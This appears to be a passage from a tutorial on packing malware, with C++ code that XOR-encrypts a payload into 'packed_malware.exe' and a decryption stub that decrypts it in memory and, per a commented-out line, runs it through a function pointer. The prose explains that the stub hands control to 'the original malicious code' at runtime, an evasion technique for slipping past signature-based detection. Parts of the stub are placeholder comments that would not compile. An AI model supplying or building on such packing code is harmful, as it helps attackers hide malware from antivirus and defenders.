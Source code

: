 ```cpp

    // Step 4: Write the encrypted payload and the decryption stub into a new packed file
    std::ofstream packedFile("packed_malware.exe", std::ios::binary);
    if (!packedFile) {
        std::cerr << "Failed to create the packed file." << std::endl;
        return 1;
    }

    // Here, you would write the decryption stub first (stub implementation not shown for brevity)
    // For now, let's assume we have a simple decryption stub ready

    // Write the encrypted payload
    packedFile.write(payloadData, payloadSize);
    packedFile.close();

    delete[] payloadData;
    std::cout << "Payload packed and encrypted successfully." << std::endl;

    return 0;
}
```

In this example, the `xorEncryptDecrypt` function encrypts the original payload with a key. The encrypted payload is then saved into a new file, along with a decryption stub that will be used to decrypt it at runtime.

#### Creating a Decryption Stub
The decryption stub is embedded into the packed executable. When the packed malware is executed, the stub runs first, decrypts the payload in memory, and then transfers control to the original malicious code.

Example of a simple decryption stub:

```cpp
void xorEncryptDecrypt(char* data, size_t dataSize, const char* key, size_t keySize) {
    for (size_t i = 0; i < dataSize; ++i) {
        data[i] ^= key[i % keySize]; // XOR with the key
    }
}

int main() {
    const char* key = "simplekey"; // XOR key for decryption

    // Step 1: Locate the encrypted payload (in real scenarios, this would involve locating the payload in memory)
    char* encryptedPayload = /* pointer to the encrypted payload in memory */;
    size_t payloadSize = /* size of the encrypted payload */;

    // Step 2: Decrypt the payload
    xorEncryptDecrypt(encryptedPayload, payloadSize, key, strlen(key));

    // Step 3: Execute the decrypted payload (simplified for demonstration purposes)
    // Typically, you'd use a function pointer to execute the decrypted code:
    // ((void(*)())encryptedPayload)();

    return 0;
}
```

